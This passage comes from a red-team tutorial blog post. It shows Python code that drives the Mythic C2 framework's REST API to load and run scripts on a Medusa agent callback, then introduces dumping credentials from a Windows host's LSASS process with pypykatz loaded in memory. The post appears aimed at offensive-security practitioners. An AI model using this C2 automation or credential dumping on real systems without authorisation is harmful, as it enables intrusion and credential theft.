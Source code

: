     task = mythic_rest.Task(
        callback=callback_id, 
        command=mythic_rest.Command(cmd="load_script"), 
        params={}, 
        files=[
            mythic_rest.TaskFile(
                content=fc, 
                filename=script, 
                param_name="file")
        ]
    )
    
    # Submit the task and wait for it to complete, then show us the output 
    submit = await mythic.create_task(task, return_on="")
 
    results = await mythic.gather_task_responses(submit.response.id, timeout=-1)
    for result in results:
        print(result.to_json()["response"])


async def main():
    await scripting()

loop = asyncio.get_event_loop()
loop.run_until_complete(main())
{% endhighlight %}

Let's take a fresh Python 2.7 Medusa agent and try out this script.

<iframe title="vimeo-player" src="https://player.vimeo.com/video/591577382?h=be556f4ffd" width="640" height="360" frameborder="0" allowfullscreen></iframe>

Great, so now we have our in-memory library loaded, our script being executed, and all output making its way back to Mythic for us to view. 

Now, let's take advantage of the convenience of our automation and take things a little further!


## Dumping Credentials from LSASS using the `pypykatz` Library

To demonstrate the power and versatility that all this dynamic invocation and module loading can provide us, let's use [SkelSec](https://twitter.com/skelsec)'s awesome [pypykatz](https://github.com/skelsec/pypykatz) project to dump credentials from our Windows target's LSASS process.

We'll switch to a Python 3.8 Medusa agent for this and we'll be loading in four dependencies (three, plus the pypykatz library itself):

- minikerberos
- minidump
- asn1crypto
- pypykatz

Below is the simply script that will execute pypykatz, targeting all credential types. Note how this script has already been written to make use of the `self.sendTaskOutputUpdate()` function to return all output to the Mythic server.
